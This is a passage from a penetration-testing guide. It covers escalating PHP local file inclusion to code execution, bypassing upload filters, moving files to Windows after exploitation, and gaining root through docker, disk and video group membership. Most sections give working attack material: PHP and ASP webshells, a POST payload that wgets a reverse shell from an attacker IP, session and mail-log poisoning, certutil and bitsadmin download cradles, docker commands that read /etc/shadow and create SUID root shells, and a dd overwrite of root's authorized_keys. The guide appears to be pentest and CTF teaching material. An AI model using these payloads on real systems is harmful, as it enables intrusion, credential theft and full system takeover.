    -w  Enable File checks
    -e  Enable robots.txt and sitemap.xml check
    -d  Enable Dynamic checks
    -s  Enable Static checks
    -r  Enable Stress checks
    -i  <dork> Bing search
    -o  <dork> Google search
    -g  Web fingerprint
    -j  Server fingerprint

  usage:
  [1] perl ./uniscan.pl -u http://www.example.com/ -qweds
  [2] perl ./uniscan.pl -f sites.txt -bqweds
  [3] perl ./uniscan.pl -i uniscan
  [4] perl ./uniscan.pl -i "ip:xxx.xxx.xxx.xxx"
  [5] perl ./uniscan.pl -o "inurl:test"
  [6] perl ./uniscan.pl -u https://www.example.com/ -r

There's another tool called `fimap <https://tools.kali.org/web-applications/fimap>`_. However, it is better to check the source of uniscan for LFI and see what it is trying and try that with curl specially if cookies are required to set (in case of authenticated LFI). Personally, I tried Uniscan and for some reason cookie feature was not working and fimap only support POST parameter in cookie no GET.

.. Note :: Also, if we have unprivileged user shell or an ability to store a file somewhere in the filesystem, however don't have permission to write in /var/www/html but does have LFI, we can still write (php meterpreter shell) in /tmp or user home directory and utilize LFI to get a reverse shell.

Filtering in LFI
^^^^^^^^^^^^^^^^

Sometimes, there might be some filtering applied by default. For example: filename=secret.txt, here it is possible that it will only read files named secret.txt or with extension .txt. So, may be rename your payload accordingly. 

For example: the below code only includes the file which are named secret
::

 <?php
   $file = @$_GET['filname'];
   if(strlen($file) > 55)
      exit("File name too long.");
   $fileName = basename($file);
   if(!strpos($file, "secret"))
     exit("No secret is selected.");
   echo "<pre>";
   include($file);
   echo "</pre>";
 ?>

LFI to Remote Code Execution
----------------------------

Mainly taken from `LFI-Cheat-Sheet <https://highon.coffee/blog/lfi-cheat-sheet/>`_ , `Exploiting PHP File Inclusion – Overview <https://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/>`_ and `Upgrade from LFI to RCE via PHP Sessions <https://www.rcesecurity.com/2017/08/from-lfi-to-rce-via-php-sessions/>`_

There are variety of different tricks to turn your LFI into RCE. Using 

File upload forms/ functions
^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Figure out if there are any upload forms or functions, we will upload your malicious code to the victim server, which can be executed.

PHP wrapper expect://command
^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Allows execution of system commands via the php expect wrapper, unfortunately this is not enabled by default.

An example of PHP expect:

::

 http://IP/fileincl/example1.php?page=expect://ls

If PHP expect wrapper is disabled, below error is encountered.

::

 Warning: include(): Unable to find the wrapper "expect" - did you forget to enable it when you<br> configured PHP? in /var/www/fileincl/example1.php on line 7 
 Warning: include(): Unable to find the<br> wrapper "expect" - did you forget to enable it when you configured PHP? in <br> /var/www/fileincl/example1.php on line 7 
 Warning: include(expect://ls): failed to open stream: No such file or directory in /var/www/fileincl/example1.php on line 7 
 Warning: include(): Failed opening 'expect://ls' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /var/www/fileincl/example1.php on line 7

PHP Wrapper zip
^^^^^^^^^^^^^^^

Let's say there is a upload functionality on the victim machine, however the file saved doesn't have executeable permission, in that case if we upload a zip file containing a shellcode such as

Creating a php payload for listing current directory files (There can be other payload also. For example, php meterpreter, if the "system" is blocked use, scandir() for directory listing etc. )

::

 echo "<?php system("ls"); ?>" > shell.php

and 

::

 zip shell.zip shell.php

Now, if we upload this zip file somehow to the victim machine and know it's location (Let's say it got uploaded in /uploads) and filename (is def506bd2176265e006f2db3d7b4e9db11c459c1), we can do remote code execution

`Zip Usage <http://php.net/manual/en/wrappers.compression.php>`_ 

::

 zip://archive.zip#dir/file.txt

Burp Request

::

 GET /?parameter=zip://uploads/def506bd2176265e006f2db3d7b4e9db11c459c1%23shell HTTP/1.1
 Host: 10.50.66.93
 User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0

 %23 is the #

and we get RCE

::

 index.php
 upload.php
 uploads

We may read more about it at `Bypassing PHP Null Byte Injection protections – Part II – CTF Write-up <https://www.securusglobal.com/community/2016/08/19/abusing-php-wrappers/>`_ or `CodeGate General CTF 2015: Owlur <https://github.com/ctfs/write-ups-2015/tree/master/codegate-ctf-2015/web/owlur>`_ -- Read other write-ups in this. 

PHP Wrapper phar
^^^^^^^^^^^^^^^^

RCE can also be done using `Using Phar Archives: the phar stream wrapper <http://php.net/manual/en/phar.using.stream.php>`_ 

PHP wrapper php://file
^^^^^^^^^^^^^^^^^^^^^^
PHP wrapper php://filter
^^^^^^^^^^^^^^^^^^^^^^^^

php://filter is a kind of meta-wrapper designed to permit the application of filters to a stream at the time of opening. This is useful with all-in-one file functions such as readfile(), file(), and file_get_contents() where there is otherwise no opportunity to apply a filter to the stream prior the contents being read.

The output is encoded using base64, so you’ll need to decode the output.

::

 http://IP/fileincl/example1.php?page=php://filter/convert.base64-encode/resource=../../../../../etc/passwd

or

We could use php filter to read the source code of a PHP File

:: 

  http://xqi.cc/index.php?m=php://filter/read=convert.base64-encode/resource=index.php

More information can be found at `Using PHP for file inclusion <https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/>`_

PHP input:// stream
^^^^^^^^^^^^^^^^^^^

php://input allows you to read raw POST data. It is a less memory intensive alternative to $HTTP_RAW_POST_DATA and does not need any special php.ini directives. php://input is not available with enctype=”multipart/form-data”.

Send your payload in the POST request using curl, burp.

Example:

::

 http://IP/fileincl/example1.php?page=php://input


Post Data payload:

::

  <? system('wget http://IP/php-reverse-shell.php -O /var/www/shell.php');?>

After uploading execute the reverse shell at 

::

 http://IP/shell.php

data://text/plain;base64,command
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

/proc/self/environ
^^^^^^^^^^^^^^^^^^

If it’s possible to include /proc/self/environ from your vulnerable LFI script, then code execution can be leveraged by manipulating the User Agent parameter with Burp. After the PHP code has been introduced /proc/self/environ can be executed via your vulnerable LFI script.

/proc/self/fd
^^^^^^^^^^^^^

If it’s possible to introduce code into the proc log files that can be executed via your vulnerable LFI script. Typically you would use burp or curl to inject PHP code into the referer.

This method is a little tricky as the proc file that contains the Apache error log information changes under /proc/self/fd/ e.g. /proc/self/fd/2, /proc/self/fd/10 etc. 
Utilize `LFI-LogFileCheck.txt <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion%20-%20Path%20Traversal/Intruders/LFI-LogFileCheck.txt>`_ with Burp Intruder, and check for the returned page sizes.

Control over PHP Session Values
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Let's say, a vulnerable page is present with the post request

::

 POST /upload/? HTTP/1.1
 Host: vulnerable.redacted.com
 User-Agent: Mozilla/5.0 (Windows NT 6.3; rv:36.0) Gecko/20100101 Firefox/36.04
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
 Accept-Language: en-US,en;q=0.5
 Content-Type: application/x-www-form-urlencoded
 Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27
 Content-Length: 44
 Connection: close
 Upgrade-Insecure-Requests: 1
 
 login=1&user=admin&pass=admin&lang=en_us.php

with LFI

::

 login=1&user=admin&pass=admin&lang=../../../../../../../../../../etc/passwd

Now, the server store cookies

::

 Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
 Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
 Set-Cookie: pass=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly

As we know PHP5 stores it’s session files by default under /var/lib/php5/sess_[PHPSESSID]. (If not, do check phpinfo and figure out the location of temp files) – so the above issued session “i56kgbsq9rm8ndg3qbarhsbm27” would be stored under /var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27

Now, we can write the cookie with a php command

::

 POST /upload/? HTTP/1.1
 Host: vulnerable.redacted.com
 User-Agent: Mozilla/5.0 (Windows NT 6.3; rv:36.0) Gecko/20100101 Firefox/36.04
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
 Accept-Language: en-US,en;q=0.5
 Content-Type: application/x-www-form-urlencoded
 Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27
 Content-Length: 134
 Connection: close
 Upgrade-Insecure-Requests: 1

 login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php

This would result in 

::

 Set-Cookie: user=%3C%3Fphp+system%28%22cat+%2Fetc%2Fpasswd%22%29%3B%3F%3E; expires=Mon, 13-Aug-2018 20:40:53 GMT; path=/; httponly

Now, the php command can be executed using

::

 POST /upload/? HTTP/1.1
 Host: vulnerable.redacted.com
 User-Agent: Mozilla/5.0 (Windows NT 6.3; rv:36.0) Gecko/20100101 Firefox/36.04
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
 Accept-Language: en-US,en;q=0.5
 Content-Type: application/x-www-form-urlencoded
 Content-Length: 141
 Connection: close
 Upgrade-Insecure-Requests: 1

 login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27

The session file could again afterwards be included using the LFI (note that you need to remove the cookie from the request, otherwise it would get overwritten again and the payload would fail)

Email Server 
^^^^^^^^^^^^

If the email server allows you to send email unauthorized and we know the usernames on the system, we probably can utilize it to do remote code execution by using telnet and connecting to port 25

::

 EHLO example.com
 VRFY username@example.com
 MAIL FROM: pwned@domain.com
 RCPT TO: username@example.com
 DATA

 Subject: Owned
 <?php echo system($_REQUEST['cmd']); ?>

 .

 Mail Queued

and as we have LFI, we can read the email by 

::

 ../../../var/mail/username &cmd=whoami

The above would probably differ on the request of your LFI.



.. _A2-File-Upload:

Appendix-II : File Upload
=========================

Examples
--------

Simple File Upload
^^^^^^^^^^^^^^^^^^

Intercepting the request in Burp/ ZAP and changing the file-extension.

Below is the PHP code

::

  <?  

  function genRandomString() { 
    $length = 10; 
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz"; 
    $string = "";     

    for ($p = 0; $p < $length; $p++) { 
        $string .= $characters[mt_rand(0, strlen($characters)-1)]; 
    } 

    return $string; 
  } 

  function makeRandomPath($dir, $ext) { 
    do { 
    $path = $dir."/".genRandomString().".".$ext; 
    } while(file_exists($path)); 
    return $path; 
  } 

  function makeRandomPathFromFilename($dir, $fn) { 
    $ext = pathinfo($fn, PATHINFO_EXTENSION); 
    return makeRandomPath($dir, $ext); 
  } 

  if(array_key_exists("filename", $_POST)) { 
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]); 


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) { 
        echo "File is too big"; 
    } else { 
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) { 
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded"; 
        } else{ 
            echo "There was an error uploading the file, please try again!"; 
        } 
    } 
  } else { 
  ?> 
  <form enctype="multipart/form-data" action="index.php" method="POST">  
  <input type="hidden" name="MAX_FILE_SIZE" value="1000" />  
  <input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />  
  Choose a JPEG to upload (max 1KB):<br/>  
  <input name="uploadedfile" type="file" /><br />  
  <input type="submit" value="Upload File" />  
  </form>  
  <? } ?>   

If we change the extension of filename tag from JPG to PHP, we may be able to execute code remotely.

* Create a fake JPG containing php code.

  We’ll be using system() to read our password.

 ::

   echo "<?php system($_GET["cmd"]); ?>" > shell.jpg  

* Upload JPG, intercept in Burp/ ZAP and change the extension

 ::

   <input name="filename" value="o0xn5q93si.jpg" type="hidden">  

  is changed to

 ::

  <input name="filename" value="o0xn5q93si.php" type="hidden">  

Simple File Upload - With verifying image type
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

In this the above PHP code remain almost the same apart from little addition that we check the filetype of the file uploaded

::

  <?php  
  ...  
  
  else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {  
        echo "File is not an image";  
    }  
  
  ...  
  
  ?> 

Since the exif_imagetype function checks the filetype of the uploaded file. It checks the first bytes of an image are against a signature. Most filetypes such as JPEG, ZIP, TAR, etc. have a "Magic Number" at the beginning of the file to help verify its file type. So to pass the exif_imagetype function check, our file must start with the magic number of a supported image format.

* Take a valid file (JPG or whichever file format, we are trying to bypass), take the valid hexdump of that file (Let's say first 100 bytes)

 ::

   hexdump -n 100 -e '100/1 "\\x%02X" "\n"' sunflower.jpg

   -n length         : Interpret only length bytes of Input
   -e format_string  : Specify a format string to be used for displaying data

 Example:
 
 ::

   hexdump -n 100 -e '100/1 "\\x%02X" "\n"' sunflower.jpg
   \xFF\xD8\xFF\xE0\x00\x10\x4A\x46\x49\x46\x00\x01\x01\x01\x01\x2C\x01\x2C\x00\x00\xFF\xE1\x00\x16\x45\x78\x69\x66\x00\x00\x4D\x4D\x00\x2A\x00\x00\x00\x08\x00\x00\x00\x00\x00\x00\xFF\xDB\x00\x43\x00\x05\x03\x04\x04\x04\x03\x05\x04\x04\x04\x05\x05\x05\x06\x07\x0C\x08\x07\x07\x07\x07\x0F\x0B\x0B\x09\x0C\x11\x0F\x12\x12\x11\x0F\x11\x11\x13\x16\x1C\x17\x13\x14\x1A\x15\x11\x11\x18\x21\x18\x1A\x1D\x1D\x1F
  
* Create a file with JPG header and command shell code using python

  ::

   >>> fh = open('shell.php','w')  
   >>> fh.write('The Hexdump from above \xFF\xD8\xFF\xE0' + '<? passthru($_GET["cmd"]); ?>')  
   >>> fh.close()   

.. Tip :: Do check the source code of the page for any client-side file validation or any commented hidden parameters?

We can also upload an actual .jpeg, but alter the coments in the metadata to include the php code.

Modifying File Upload Page
^^^^^^^^^^^^^^^^^^^^^^^^^^

Upload forms are client-side, we can probably modify them using Inspect Element or F12. If by-chance, there's a LFI and we have seen the code of upload function. The first thing to check would be "What are the restrictions on upload i.e. Either only jpg file extension is uploaded or is file content is also check etc."

Let's say, there is a upload form which has a text-field for accepting input (Let's say - suspectinfo) and the input put in this text field is stored in a file format on the server. Let's see the current form in inspect-element.

Client-Side Code

::

 <form enctype="multipart/form-data" action="?op=upload" method="POST">
    <textarea style="width:400px; height:150px;" id="sinfo" name="sinfo"> </textarea><br>
	<input type="text" id="name" name="name" value="" style="width:355px;">
    <input type="submit" name="submit" value="Send Tip!">
 </form>

If we see the above form, accepts two inputs

* text type field named sinfo for providing detailed information about the server and
* text type field named name for providing name of the server.

Let's also see, serverside code

::

 if(isset($_POST['submit']) && isset($_POST['sinfo'])) {
	    	$tip = $_POST['sinfo'];
    		$secretname = Random_Filename();  ## Generates a random file name
            $location = Random_Number();      ## Generate a random number
	    	file_put_contents("uploads/". $location . '/' . $secretname,  $sinfo);

If we see, the contents of sinfo are directly put in a file.


In this case, if we change the input type of sinfo from text to file. We can upload a file! Imagine uploading a zip file or php file.

::

 <form enctype="multipart/form-data" action="?op=upload" method="POST">
 #  <textarea style="width:400px; height:150px;" id="sinfo" name="sinfo"> </textarea><br> ---------- We have commented this and add the below line.
	<input type="file" id="sinfo" name="sinfo" value="" style="width:355px;">
	<input type="text" id="name" name="name" value="" style="width:355px;">
    <input type="submit" name="submit" value="Send Tip!">
 </form>

Now, when we press submit button, probably, just make sure that the request is quite similar to the original one and we should be able to upload the file.

.. Tip :: Sometimes, there might be cases when the developer has a commented a input type on the client side, however has forgotten to comment on the serverside code! Maybe, try to uncomment and see what happens!

IIS - Web.config Upload
^^^^^^^^^^^^^^^^^^^^^^^

If we are able to upload a web.config file by a file upload functionality in IIS - Windows machine, there might be a possibility of remote code execution.

A web.config file lets you customize the way site or a specific directory on site behaves. For example, if you place a web.config file in your root directory, it will affect your entire site. If you place it in a /content directory, it will only affect that directory.

With a web.config file, you can control:

* Database connection strings.
* Error behavior.
* Security.

Refer `Upload a web.config File for Fun & Profit <https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/>`_ and `RCE by uploading a web.config <https://poc-server.com/blog/2018/05/22/rce-by-uploading-a-web-config/>`_ 

We can upload the below web.config

::

 <?xml version="1.0" encoding="UTF-8"?>
 <configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
 </configuration>
 <%
 set cmd = Request.QueryString("cmd")
 Set os = Server.CreateObject("WSCRIPT.SHELL")
 output = os.exec("cmd.exe /c " + cmd).stdout.readall
 response.write output
 %>

The above expects a parameter cmd which is executed using wscript.shell and can be executed like

::

  http://IP/uploads/web.config?cmd=whoami



.. _A3-Tranfer-Files-From-Linux-to-Windows:

Appendix-III Transferring Files from Linux to Windows (post-exploitation)
=========================================================================

There would times, where we have a Windows Shell (Command Prompt) and need to copy over some files to the Windows OS. Most of the stuff has been completely taken from `Transferring Files from Linux to Windows (post-exploitation) <https://blog.ropnop.com/transferring-files-from-kali-to-windows/>`_ Here are the few methods 

SMB
---

We need to setup a SMB Server on the Debian/ Kali machine

SMB Server - Attacker
^^^^^^^^^^^^^^^^^^^^^

We can utilize Impacket smbserver to create a SMB Server without authentication, so that anyone can access the share and download the files.

::

 /usr/share/doc/python-impacket/examples/smbserver.py
 Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies

 usage: smbserver.py [-h] [-comment COMMENT] [-debug] [-smb2support]
                    shareName sharePath

 This script will launch a SMB Server and add a share specified as an argument.
 You need to be root in order to bind to port 445. No authentication will be
 enforced. Example: smbserver.py -comment 'My share' TMP /tmp

 positional arguments:
  shareName         name of the share to add
  sharePath         path of the share to add

 optional arguments:
  -h, --help        show this help message and exit
  -comment COMMENT  share's comment to display when asked for shares
  -debug            Turn DEBUG output ON
  -smb2support      SMB2 Support (experimental!)


So, we can setup by using

::

 python smbserver.py SHELLS /root/Desktop/SHELLS

 Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies

 [*] Config file parsed
 [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
 [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
 [*] Config file parsed
 [*] Config file parsed
 [*] Config file parsed


Accessing the share - Linux
^^^^^^^^^^^^^^^^^^^^^^^^^^^

We can use smbclient to access the share

::

 smbclient -L 10.10.10.10 --no-pass
 WARNING: The "syslog" option is deprecated

 	Sharename       Type      Comment
 	---------       ----      -------
 	IPC$            Disk      
 	SHELLS          Disk      
  Reconnecting with SMB1 for workgroup listing.
  Connection to localhost failed (Error NT_STATUS_NETWORK_UNREACHABLE)
  Failed to connect with SMB1 -- no workgroup available


Accessing the share - Windows
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

We can use net view to check the shares

::

 net view \\10.10.10.10
 
 Shared resources at \\10.10.10.10

 (null)

 Share name Type Used as Comment
 -------------------------------
 SHELLS     Disk
 The command completed sucessfully

Copying the Files - Windows
^^^^^^^^^^^^^^^^^^^^^^^^^^^

From the Windows Command Prompt

::

 dir \\10.10.14.16\SHELLS

 Volume in drive \\10.10.14.16\SHELLS has no label.
 Volume Serial Number is ABCD-EFAA

 Directory of \\10.10.14.16\SHELLS

 04/10/2018  11:47 AM    <DIR>          .
 04/08/2018  06:25 PM    <DIR>          ..
 04/10/2018  11:47 AM            73,802 ps.exe
               1 File(s)        101,696 bytes
               2 Dir(s)  15,207,469,056 bytes free


We can directly copy the file 

::

 C:\Users\bitvijays\Desktop> copy \\10.10.14.16\SHELLS\ps.exe .
        1 file(s) copied.

or directly execute it without copying

::

 \\10.10.14.16\SHELLS\ps.exe

 ps.exe can be your meterpreter exe


HTTP
----

Setting up the Server
^^^^^^^^^^^^^^^^^^^^^

We can use python-SimpleHTTPServer to set up a HTTP Web Server

::

 python -m SimpleHTTPServer

Accessing the Server - Windows
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

**Windows Command Prompt**

We can use powershell to download a file from a command prompt

::

 powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.10.10:8000/ps.exe','C:\Users\bitvijays\Desktop\ps.exe')"

**CertUtil**

CertUtil command can be abused to download a file from internet.

::

 certutil.exe -urlcache -split -f "https://download.sysinternals.com/files/PSTools.zip" pstools.zip

**Bitsadmin**

::

 bitsadmin /transfer myDownloadJob /download /priority normal http://10.10.10.10:8000/ps.exe c:\Users\bitvijays\Desktop\ps.exe


FTP
---

We can utilize FTP to download/ upload files from a ftp server. FTP Client is usually installed on Windows by default.

Setting up the Server
^^^^^^^^^^^^^^^^^^^^^

We can either use Python-pyftpdlib or Metasploit to create a FTP Server

**Python-pyftpdlib**

Install using apt

::

 apt-get install python-pyftpdlib

Now from the directory we want to serve, just run the Python module. It runs on port 2121 by default (can be changed using -p parameter) and accepts anonymous authentication. To listen on the standard port: 

::

 /home/bitvijays/SHELLS$ python -m pyftpdlib -p 21

 Usage: python -m pyftpdlib [options]

 Start a stand alone anonymous FTP server.

 Options:
  -h, --help : show this help message and exit
  -i ADDRESS, --interface=ADDRESS : specify the interface to run on (default all interfaces)
  -p PORT, --port=PORT : specify port number to run on (default 2121)
  -w, --write :  grants write access for logged in user (default read-only)
  -d FOLDER, --directory=FOLDER : specify the directory to share (default current directory)
  -n ADDRESS, --nat-address=ADDRESS : the NAT address to use for passive connections
  -r FROM-TO, --range=FROM-TO : the range of TCP ports to use for passive connections (e.g. -r 8000-9000)
  -D, --debug : enable DEBUG logging evel
  -v, --version : print pyftpdlib version and exit
  -V, --verbose : activate a more verbose logging
  -u USERNAME, --username=USERNAME : specify username to login with (anonymous login will be disabled and password required if supplied)
  -P PASSWORD, --password=PASSWORD : specify a password to login with (username required to be useful)

**Metasploit**

::

  Name: FTP File Server
  Module: auxiliary/server/ftp
  License: Metasploit Framework License (BSD)
  Rank: Normal
  
  Provided by:
  hdm <x@hdm.io>

  Available actions:
  Name     Description
  ----     -----------
  Service

  Basic options:
  Name      Current Setting  Required  Description
  ----      ---------------  --------  -----------
  FTPPASS                    no        Configure a specific password that should be allowed access
  FTPROOT   /tmp/ftproot     yes       The FTP root directory to serve files from
  FTPUSER                    no        Configure a specific username that should be allowed access
  PASVPORT  0                no        The local PASV data port to listen on (0 is random)
  SRVHOST   0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
  SRVPORT   21               yes       The local port to listen on.
  SSL       false            no        Negotiate SSL for incoming connections
  SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)

  Description:
  This module provides a FTP service


Access using FTP
^^^^^^^^^^^^^^^^

::

 ftp 10.10.10.10
 Connected to 10.10.10.10.
 220 FTP Server Ready
 Name (localhost:root): anonymous
 331 User name okay, need password...
 Password:
 230 Login OK
 Remote system type is UNIX.
 Using binary mode to transfer files.

 ftp> ls
 200 PORT command successful.
 150 Opening ASCII mode data connection for /bin/ls
 total 160
 drwxr-xr-x   2 0      0       512 Jan  1  2000 ..
 drwxr-xr-x   2 0      0       512 Jan  1  2000 .
 -rw-r--r--   1 0      0       166 Jan  1  2000 secret.zip
 226 Transfer complete.

 ftp> get secret.zip
 local: secret.zip remote: secret.zip
 200 PORT command successful.
 150 Opening BINARY mode data connection for secret.zip
 226 Transfer complete.
 166 bytes received in 0.00 secs (138.4367 kB/s)
 ftp>


FTP can also accepts a series of commands stored in a text file

Contents of a text file

::

 open 10.10.10.10
 anonymous  
 anonymous  
 binary  
 get ps.exe 
 bye 


Passing parameter to ftp

::

 ftp -s:filename-containing-commands

The file can be created by using echo

::

 echo "open 10.10.10.10" >> commands.txt
 echo "anonymous" >> commands.txt


TFTP
----

We can also utilize TFTP to download or upload files

Setting up the Server
^^^^^^^^^^^^^^^^^^^^^

Metasploit module 

::

 use auxiliary/server/tftp 
 msf auxiliary(server/tftp) > info 

       Name: TFTP File Server
     Module: auxiliary/server/tftp
    License: Metasploit Framework License (BSD)
       Rank: Normal

 Provided by:
  jduck <jduck@metasploit.com>
  todb <todb@metasploit.com>

 Available actions:
  Name     Description
  ----     -----------
  Service  

 Basic options:
  Name        Current Setting  Required  Description
  ----        ---------------  --------  -----------
  OUTPUTPATH  /tmp             yes       The directory in which uploaded files will be written.
  SRVHOST     0.0.0.0          yes       The local host to listen on.
  SRVPORT     69               yes       The local port to listen on.
  TFTPROOT    /tmp             yes       The TFTP root directory to serve files from

 Description:
  This module provides a TFTP service

 msf auxiliary(server/tftp) > run 
 [*] Auxiliary module running as background job 0.

 [*] Starting TFTP server on 0.0.0.0:69...
 [*] Files will be served from /tmp
 [*] Uploaded files will be saved in /tmp


Accessing the Share
^^^^^^^^^^^^^^^^^^^

Downloading a file

::

 tftp -i 10.10.10.10 GET ps.exe

Uploading a file

::

 tftp -i 10.10.10.10 PUT Passwords.txt

Installing tftp - Windows
^^^^^^^^^^^^^^^^^^^^^^^^^

::

  pkgmgr /iu:"TFTP"


.. _A4-Linux-Group-Membership-Issues:

Appendix-IV Linux Group Membership Issues
=========================================

Let's examine in what groups we are members. Recommended read about groups: `Users and Groups <https://wiki.archlinux.org/index.php/users_and_groups>`_ and `System Groups <https://wiki.debian.org/SystemGroups>`_

Docker Group
---------------

Any user who is part of the docker group should also be considered root. Read `Using the docker command to root the host <http://reventlov.com/advisories/using-the-docker-command-to-root-the-host>`_ Older version of docker were vulnerable to Docker breakout. More details at `Shocker / Docker Breakout PoC <https://github.com/gabrtv/shocker>`_

If you are the docker user and want to get root. 

Create a Dockerfile
^^^^^^^^^^^^^^^^^^^

::

 mkdir docker-test
 cd docker-test

 cat > Dockerfile
 FROM debian:wheezy
 ENV WORKDIR /stuff
 RUN mkdir -p $WORKDIR
 VOLUME [ $WORKDIR ]
 WORKDIR $WORKDIR

Build the Docker
^^^^^^^^^^^^^^^^

::

 docker build -t my-docker-image .


.. Note :: If there are already docker images present on the host machine, we can utilize those also instead of making a new one. If there are none, we can copy a image to the vulnerable machine.

**Copy docker images from one host to another without via repository?**

Save the docker image as a tar file:

::

 docker save -o <path for generated tar file> <image name>

Then copy the image to a new system with regular file transfer tools such as cp or scp. After that, load the image into docker:

:: 

 docker load -i <path to image tar file>

Become root?
^^^^^^^^^^^^

* Copy binaries from the container into the host and give them suid permissions:

 ::

  docker run -v $PWD:/stuff -t my-docker-image /bin/sh -c 'cp /bin/sh /stuff && chown root.root /stuff/sh && chmod a+s /stuff/sh'

  ./sh
  whoami
  # root

 If the sh is not working, create a suid.c, compile it, suid it and run.

* Mount system directories into docker and ask docker to read (and write) restricted files that should be out of your user’s clearance:

 ::


  docker run -v /etc:/stuff -t my-docker-image /bin/sh -c 'cat shadow'
  # root:!:16364:0:99999:7:::
  # daemon:*:16176:0:99999:7:::
  # bin:*:16176:0:99999:7:::
  # ...

* Bind the host’s / and overwrite system commands with rogue programs:

 ::

  docker run -v /:/stuff -t my-docker-image /bin/sh -c 'cp /stuff/rogue-program /stuff/bin/cat'

* Privileged copy of bash for later access?

 ::

  docker run -v /:/stuff -t my-docker-image /bin/sh -c 'cp /stuff/bin/bash /stuff/bin/root-shell-ftw && chmod a+s /stuff/bin/root-shell-ftw'
  root-shell-ftw  -p
  root-shell-ftw-4.3#

Video
-----

If the user is a part of the video group, he possibly might have access to the frame buffer (/dev/fb0) (which provides an abstraction for the video hardware), video capture devices, 2D/3D hardware acceleration. More details can be found at `Linux Framebuffer <https://en.wikipedia.org/wiki/Linux_framebuffer>`_ and `Kernel Framebuffer <https://www.kernel.org/doc/Documentation/fb/framebuffer.txt>`_

If, we have access to the framebuffer device /dev/fb0. We can use a tool like `fb2png <https://github.com/AndrewFromMelbourne/fb2png>`_ to convert it to a png picture or we can cat it and get a file:

::

 cat /dev/fb0 > screenshot.raw

 ls -l screenshot.raw 
 -rw-rw-r-- 1 user user 4163040 May 18 03:52 screenshot.raw

To find the screen resolution, we can read virtual size

::

 cat /sys/class/graphics/fb0/virtual_size
 1176,885

We can then open the screenshot as a raw file (Select File Type: Raw Image Data) in Gimp, enter the width and height as well of the color arrangement, RGB, RGBA etc.

Disk
----

Debian's wiki says about the "disk" group: Raw access to disks. Mostly equivalent to root access. The group disk can be very dangerous, since hard drives in /dev/sd* and /dev/hd* can be read and written bypassing any file system and any partition, allowing a normal user to disclose, alter and destroy both the partitions and the data of such drives without root privileges. Users should never belong to this group.

We can use debugfs command to read everything and dd command to write anywhere.

Read /root/.ssh/authorized_keys using debugfs:

::

 user@hostname:/tmp$ debugfs -w /dev/sda1 -R "cat /root/.ssh/authorized_keys"
 debugfs 1.42.13 (17-May-2015)
 ssh-rsa AAAAB3NzaC1yc2EAAAADAQA

Let's find the block where the "/root/.ssh/authorized_keys" file resides:

::

 user@hostname:/tmp$ debugfs /dev/sda1 -R "blocks /root/.ssh/authorized_keys"
 debugfs 1.42.13 (17-May-2015)
 1608806

Let's use dd to write our own public key inside /root/.ssh/authorized_keys. This command will write over (i.e. it will replace) the old data:

::

 user@hostname:/tmp$ dd if=/tmp/id_rsa.pub of=/dev/sda1 seek=1608806 bs=4096 count=1
 0+1 records in
 0+1 records out
 394 bytes copied, 0.00239741 s, 164 kB/s

It's important to sync afterwards:

::

 user@hostname:/tmp$ sync

Read again to check if the file was overwritten

::

 user@hostname:/tmp$ debugfs -w /dev/sda1 -R "cat /root/.ssh/authorized_keys"
 debugfs 1.42.13 (17-May-2015)
 ssh-rsa AAAAB3NzaC1yc2EAAAADAQA

More usage details about can be found at `debugfs Command Examples <https://www.cs.montana.edu/courses/309/topics/4-disks/debugfs_example.html>`_

Set file system 
^^^^^^^^^^^^^^^
::

 > debugfs /dev/hda6
 debugfs 1.19, 13-Jul-2000 for EXT2 FS 0.5b, 95/08/09

List files
^^^^^^^^^^

::

